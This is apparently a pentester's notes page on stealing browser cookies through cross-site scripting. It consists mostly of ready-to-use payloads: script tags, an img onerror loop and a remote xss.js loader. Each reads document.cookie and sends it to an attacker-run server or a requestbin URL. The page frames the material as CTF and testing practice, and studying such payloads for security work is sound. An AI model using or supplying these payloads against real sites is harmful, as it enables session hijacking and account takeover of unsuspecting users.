 # Stealing Cookies

Stealing cookies to obtain privileges is the fever dream of hackers looking to exploit cross-site scripting vulnerabilities.&#x20;

### Payloads

#### Verification with alert()

This payload will pop an `alert()` box prior to sending the cookie. This can be usefuil for testing a cross-site scripting payload and verifying that it is grabbing the intended information. Once the `alert()` box closes, the cookie will be sent to the arbitrary server:

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.0.0.1:1337/?"+document.cookie;
</script>
```

#### Exfiltrating cookies without alert()

After verifying that the parameter is susceptible to cross-site scripting, we can leverage the following payload to exfiltrate cookies silently:

```javascript
<script>var i=new Image;i.src="http://172.0.0.1:1337/?"+document.cookie;</script>
```

#### CTF Only Payload

The following payload leverages the `img` tag rather then `script` and will call `onerror()` in a loop, ultimately filling up your server with cookies. I have found this can be life-saving in a CTF when things may not be working as the author originally intended:

```javascript
<img src=x onerror=this.src='http://172.0.0.1:1337/?'+document.cookie;>
```

#### My Preferred Method

The way that I like to go about capturing cookies is submitting the following payload, calling back to a JavaScript file that I am host on a Python web server:

```javascript
<script src="http://172.0.0.1/xss.js"></script>
"><script src=http://172.0.0.1/xss.js></script>
```

The `xss.js` file looks like the following, ultimately it is doing the same as the above payloads by grabbing and sending the cookies to my hosted web server:

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://172.0.0.1/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```

### Capturing the Cookies

Unless you're in a CTF environment, I would highly recommend capturing the cookies on a local web server or Burp collaborator instance. I'm not sure about you, but sending cookies to a random website seems like a bad idea to me. That being said, there are sites that exist such as `requestbin` to send the request to:

```javascript
http://172.0.0.1:1337/<script>new Image().src="http://requestbin.net/r/mybin?c="+document.cookie;</script>
```

### References

{% embed url="https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md" %}

{% embed url="https://snowscan.io/htb-writeup-bankrobber/" %}
